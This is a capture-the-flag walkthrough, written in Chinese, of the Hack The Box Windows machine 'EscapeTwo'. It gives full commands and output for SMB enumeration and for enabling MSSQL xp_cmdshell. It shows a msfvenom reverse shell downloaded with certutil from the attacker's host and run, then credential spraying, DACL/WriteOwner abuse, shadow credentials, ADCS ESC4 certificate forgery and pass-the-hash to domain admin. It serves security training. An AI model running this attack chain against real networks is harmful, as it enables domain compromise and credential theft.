





###### tags: `Hack the box` `HTB` `Medium` `Windows`

# EscapeTwo
```
┌──(kali㉿kali)-[~/htb]
└─$ rustscan -a 10.129.231.236 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 10.129.231.236:53
Open 10.129.231.236:88
Open 10.129.231.236:135
Open 10.129.231.236:139
Open 10.129.231.236:389
Open 10.129.231.236:445
Open 10.129.231.236:464
Open 10.129.231.236:593
Open 10.129.231.236:636
Open 10.129.231.236:1433
Open 10.129.231.236:3269
Open 10.129.231.236:3268
Open 10.129.231.236:5985
Open 10.129.231.236:9389
Open 10.129.231.236:47001
Open 10.129.231.236:49665
Open 10.129.231.236:49664
Open 10.129.231.236:49666
Open 10.129.231.236:49667
Open 10.129.231.236:49685
Open 10.129.231.236:49687
Open 10.129.231.236:49686
Open 10.129.231.236:49702
Open 10.129.231.236:49718
Open 10.129.231.236:49739
Open 10.129.231.236:54744

PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-01-21 07:11:37Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-01-21T07:13:15+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Issuer: commonName=sequel-DC01-CA/domainComponent=sequel
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-08T17:35:00
| Not valid after:  2025-06-08T17:35:00
| MD5:   09fd:3df4:9f58:da05:410d:e89e:7442:b6ff
| SHA-1: c3ac:8bfd:6132:ed77:2975:7f5e:6990:1ced:528e:aac5
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-01-21T07:13:14+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Issuer: commonName=sequel-DC01-CA/domainComponent=sequel
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-08T17:35:00
| Not valid after:  2025-06-08T17:35:00
| MD5:   09fd:3df4:9f58:da05:410d:e89e:7442:b6ff
| SHA-1: c3ac:8bfd:6132:ed77:2975:7f5e:6990:1ced:528e:aac5
1433/tcp  open  ms-sql-s      syn-ack ttl 127 Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ssl-date: 2025-01-21T07:13:15+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-01-21T06:31:31
| Not valid after:  2055-01-21T06:31:31
| MD5:   ae2b:7b7f:76fa:bd9a:8a68:9f12:bc54:3027
| SHA-1: 41ad:592a:2008:5e15:7ac5:810c:d82a:a2ac:bc6b:48e9
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Supported Methods: HEAD POST
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49685/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49686/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49687/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49702/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49718/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49739/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
54744/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

利用`nxc`可以查看user
```
┌──(kali㉿kali)-[~/htb]
└─$ nxc smb 10.129.182.249 -u rose -p 'KxEPkKe6R8su' --rid-brute | grep SidTypeUser
SMB                      10.129.182.249  445    DC01             500: SEQUEL\Administrator (SidTypeUser)
SMB                      10.129.182.249  445    DC01             501: SEQUEL\Guest (SidTypeUser)
SMB                      10.129.182.249  445    DC01             502: SEQUEL\krbtgt (SidTypeUser)
SMB                      10.129.182.249  445    DC01             1000: SEQUEL\DC01$ (SidTypeUser)
SMB                      10.129.182.249  445    DC01             1103: SEQUEL\michael (SidTypeUser)
SMB                      10.129.182.249  445    DC01             1114: SEQUEL\ryan (SidTypeUser)
SMB                      10.129.182.249  445    DC01             1116: SEQUEL\oscar (SidTypeUser)
SMB                      10.129.182.249  445    DC01             1122: SEQUEL\sql_svc (SidTypeUser)
SMB                      10.129.182.249  445    DC01             1601: SEQUEL\rose (SidTypeUser)
SMB                      10.129.182.249  445    DC01             1607: SEQUEL\ca_svc (SidTypeUser)
```

題目有給一組帳密`rose / KxEPkKe6R8su`
```
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec smb -u 'rose' -p 'KxEPkKe6R8su' --shares 10.129.231.236

SMB         10.129.231.236  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.129.231.236  445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su 
SMB         10.129.231.236  445    DC01             [+] Enumerated shares
SMB         10.129.231.236  445    DC01             Share           Permissions     Remark
SMB         10.129.231.236  445    DC01             -----           -----------     ------
SMB         10.129.231.236  445    DC01             Accounting Department READ            
SMB         10.129.231.236  445    DC01             ADMIN$                          Remote Admin
SMB         10.129.231.236  445    DC01             C$                              Default share
SMB         10.129.231.236  445    DC01             IPC$            READ            Remote IPC
SMB         10.129.231.236  445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.231.236  445    DC01             SYSVOL          READ            Logon server share 
SMB         10.129.231.236  445    DC01             Users           READ 
```

利用該帳密登入smb的"Accounting Department"可看到兩個`.xlsx`
```
┌──(kali㉿kali)-[~/htb]
└─$ smbclient //10.129.181.71/"Accounting Department" -U rose%"KxEPkKe6R8su"
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Jun  9 06:52:21 2024
  ..                                  D        0  Sun Jun  9 06:52:21 2024
  accounting_2024.xlsx                A    10217  Sun Jun  9 06:14:49 2024
  accounts.xlsx                       A     6780  Sun Jun  9 06:52:07 2024
g
                6367231 blocks of size 4096. 901071 blocks available
smb: \> get accounting_2024.xlsx
smb: \> get accounts.xlsx
```

要打開時發現他損毀，查看[magic number](https://en.wikipedia.org/wiki/List_of_file_signatures)並修改前四個變成`50 4B 03 04`



改完之後重開可以看到4組帳密



```
angela/0fwz7Q4mSpurIt99
oscar/86LxLBMgEWaKUnBG
kevin/Md9Wlq1E5bZnVDVo
sa/MSSQLP@ssw0rd!
```

在前面掃port時有發現`1433port`，利用`mssqlclient`登入看看，再把`xp_cmdshell`改成1
```
┌──(kali㉿kali)-[~/htb]
└─$ impacket-mssqlclient sa:'MSSQLP@ssw0rd!'@10.129.181.71

SQL (sa  dbo@master)> sp_configure 'xp_cmdshell',1;
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (sa  dbo@master)> RECONFIGURE;
SQL (sa  dbo@master)> exec xp_cmdshell "chdir"
output                
-------------------   
C:\Windows\system32
```

新增一個`reverse shell`再把他送上去
```
┌──(kali㉿kali)-[~/htb]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.34 LPORT=445 -f exe -o met_445.exe

┌──(kali㉿kali)-[~/htb]
└─$ python3 -m http.server 80

┌──(kali㉿kali)-[~/htb]
└─$ rlwrap -cAr nc -nvlp445

SQL (sa  dbo@master)> EXEC xp_cmdshell 'powershell -ep bypass; cd C:\Users\Public\Documents; certutil.exe -urlcache -f http://10.10.14.34/met_445.exe met_445.exe; ./met_445.exe';
```

回彈後，可在`C:\SQL2019\ExpressAdv_ENU\sql-Configuration.INI`發現密碼`WqSZAF6CysDQbGb3`
```
C:\Users>whoami
sequel\sql_svc

C:\SQL2019\ExpressAdv_ENU>type sql-Configuration.INI
                          type sql-Configuration.INI
type sql-Configuration.INI
[OPTIONS]
ACTION="Install"
QUIET="True"
FEATURES=SQL
INSTANCENAME="SQLEXPRESS"
INSTANCEID="SQLEXPRESS"
RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"
AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
AGTSVCSTARTUPTYPE="Manual"
COMMFABRICPORT="0"
COMMFABRICNETWORKLEVEL=""0"
COMMFABRICENCRYPTION="0"
MATRIXCMBRICKCOMMPORT="0"
SQLSVCSTARTUPTYPE="Automatic"
FILESTREAMLEVEL="0"
ENABLERANU="False" 
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="SEQUEL\sql_svc"
SQLSVCPASSWORD="WqSZAF6CysDQbGb3"
SQLSYSADMINACCOUNTS="SEQUEL\Administrator"
SECURITYMODE="SQL"
SAPWD="MSSQLP@ssw0rd!"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
NPENABLED="1"
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True
```

利用`user.txt`進行爆破，可嘗試使用`win-rm`以`ryan:WqSZAF6CysDQbGb3`登入
```
┌──(kali㉿kali)-[~/htb]
└─$ cat user.txt 
ryan
oscar
michael
kevin
angela
administrator
sa

┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec smb 10.129.182.249 -u user.txt -p password.txt --continue-on-success
SMB         10.129.182.249  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.129.182.249  445    DC01             [-] sequel.htb\ryan:0fwz7Q4mSpurIt99 STATUS_LOGON_FAILURE 
SMB         10.129.182.249  445    DC01             [-] sequel.htb\ryan:86LxLBMgEWaKUnBG STATUS_LOGON_FAILURE 
SMB         10.129.182.249  445    DC01             [-] sequel.htb\ryan:Md9Wlq1E5bZnVDVo STATUS_LOGON_FAILURE 
SMB         10.129.182.249  445    DC01             [-] sequel.htb\ryan:MSSQLP@ssw0rd! STATUS_LOGON_FAILURE 
SMB         10.129.182.249  445    DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3 
SMB         10.129.182.249  445    DC01             [-] sequel.htb\oscar:0fwz7Q4mSpurIt99 STATUS_LOGON_FAILURE 
SMB         10.129.182.249  445    DC01             [+] sequel.htb\oscar:86LxLBMgEWaKUnBG 
```

登入之後可在"C:\Users\ryan\Desktop"得`user.txt`
```
┌──(kali㉿kali)-[~/htb]
└─$ evil-winrm -i 10.129.182.249 -u ryan -p "WqSZAF6CysDQbGb3"

*Evil-WinRM* PS C:\Users> whoami
sequel\ryan

*Evil-WinRM* PS C:\Users\ryan\Desktop> type user.txt
0913bc8c69aebbfe8ade838d292bf28e
```

拿出我們的`bloodhound`
```
┌──(kali㉿kali)-[~/htb]
└─$ bloodhound-python -c All -u 'ryan' -p 'WqSZAF6CysDQbGb3' -d sequel.htb -ns 10.129.182.249 --zip

┌──(kali㉿kali)-[~/htb]
└─$ sudo neo4j start 

┌──(kali㉿kali)-[~/htb]
└─$ bloodhound
```

可以看到`ryan`是`ca_svs`的`WriteOwner`



點右鍵看`help`



可以參考[DACLs attacks](https://hideandsec.sh/books/cheatsheets-82c/page/active-directory-python-edition#bkmrk-writeowner)

最後再參考`shadow credential`



利用[Certipy](https://github.com/ly4k/Certipy?tab=readme-ov-file#domain-escalation)

更改`/etc/hosts`
```
┌──(kali㉿kali)-[~/htb]
└─$ sudo nano /etc/hosts

10.129.186.118  sequel.htb
10.129.186.118  DC01.sequel.htb
```

```
┌──(kali㉿kali)-[~/htb]
└─$ owneredit.py -new-owner ryan -target ca_svc -dc-ip 10.129.186.118 -action write sequel.htb/ryan:WqSZAF6CysDQbGb3
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Current owner information below
[*] - SID: S-1-5-21-548670397-972687484-3496335370-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=sequel,DC=htb
[*] OwnerSid modified successfully!

┌──(kali㉿kali)-[~/htb]
└─$ dacledit.py -action write -target ca_svc -principal ryan -rights FullControl -ace-type allowed -dc-ip 10.129.186.118 sequel.htb/ryan:WqSZAF6CysDQbGb3
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20250122-021605.bak
[*] DACL modified successfully!

┌──(kali㉿kali)-[~/htb]
└─$ certipy-ad shadow auto -u ryan@sequel.htb -p 'WqSZAF6CysDQbGb3' -dc-ip 10.129.186.118 -target DC01.sequel.htb -account ca_svc  
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'a0826bb3-8058-3ca9-531e-47765e0f18a7'
[*] Adding Key Credential with device ID 'a0826bb3-8058-3ca9-531e-47765e0f18a7' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID 'a0826bb3-8058-3ca9-531e-47765e0f18a7' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Using principal: ca_svc@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': 3b181b914e7a9d5508ea1e20bc2b7fce
```

找漏洞
```
┌──(kali㉿kali)-[~/htb]
└─$ export KRB5CCNAME=./ca_svc.ccache                                         
                         
┌──(kali㉿kali)-[~/htb]
└─$ certipy find -k -debug -target DC01.sequel.htb -dc-ip 10.129.186.118 -vulnerable -stdout 
Certificate Templates
  0
    Template Name                       : DunderMifflinAuthentication
    Display Name                        : Dunder Mifflin Authentication
    Certificate Authorities             : sequel-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireCommonName
                                          SubjectAltRequireDns
    Enrollment Flag                     : AutoEnrollment
                                          PublishToDs
    Private Key Flag                    : 16777216
                                          65536
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1000 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : SEQUEL.HTB\Enterprise Admins
        Full Control Principals         : SEQUEL.HTB\Cert Publishers
        Write Owner Principals          : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
                                          SEQUEL.HTB\Cert Publishers
        Write Dacl Principals           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
                                          SEQUEL.HTB\Cert Publishers
        Write Property Principals       : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
                                          SEQUEL.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC4                              : 'SEQUEL.HTB\\Cert Publishers' has dangerous permissions
```

使用`ESC4`漏洞，且`template`為`DunderMifflinAuthentication`，不知道為什麼試了好幾次都會錯，後來參考[forum](https://forum.hackthebox.com/t/official-escapetwo-discussion/335727/258)他說要加`-ns`跟`dns`參數試了好幾次才成功QQ
```
┌──(kali㉿kali)-[~/htb]
└─$ certipy-ad template -k -template DunderMifflinAuthentication -target dc01.sequel.htb -dc-ip 10.129.186.118 -debug

┌──(kali㉿kali)-[~/htb]
└─$ certipy-ad req -u ca_svc -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -ca sequel-DC01-CA -target DC01.sequel.htb -dc-ip 10.129.186.118 -template DunderMifflinAuthentication -upn Administrator@sequel.htb -ns 10.129.186.118 -dns 10.129.186.118 -debug

┌──(kali㉿kali)-[~/htb]
└─$ certipy-ad req -u ca_svc -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -ca sequel-DC01-CA -target DC01.sequel.htb -dc-ip 10.129.186.118 -template DunderMifflinAuthentication -upn Administrator@sequel.htb -ns 10.129.186.118 -dns 10.129.186.118 -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

/usr/lib/python3/dist-packages/certipy/commands/req.py:459: SyntaxWarning: invalid escape sequence '\('
  "(0x[a-zA-Z0-9]+) \([-]?[0-9]+ ",
[+] Trying to resolve 'DC01.sequel.htb' at '10.129.186.118'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.129.186.118[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.129.186.118[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 5
[*] Got certificate with multiple identifications
    UPN: 'Administrator@sequel.htb'
    DNS Host Name: '10.129.186.118'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator_10.pfx'
```

利用`auth`再驗證，就可以得到administrator hash了
```
┌──(kali㉿kali)-[~/htb]
└─$ certipy auth -pfx administrator_10.pfx -dc-ip 10.129.186.118
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'Administrator@sequel.htb'
    [1] DNS Host Name: '10.129.186.118'
> 0
[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff
```

利用hash登入administrator就可以在`C:\Users\Administrator\Desktop`得到root.txt
```
┌──(kali㉿kali)-[~/htb]
└─$ evil-winrm -i 10.129.186.118 -u administrator -H 7a8d4e04986afa8ed4060f75e5a0b3ff

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
881d821f96d64684b46d72912f30a09a
```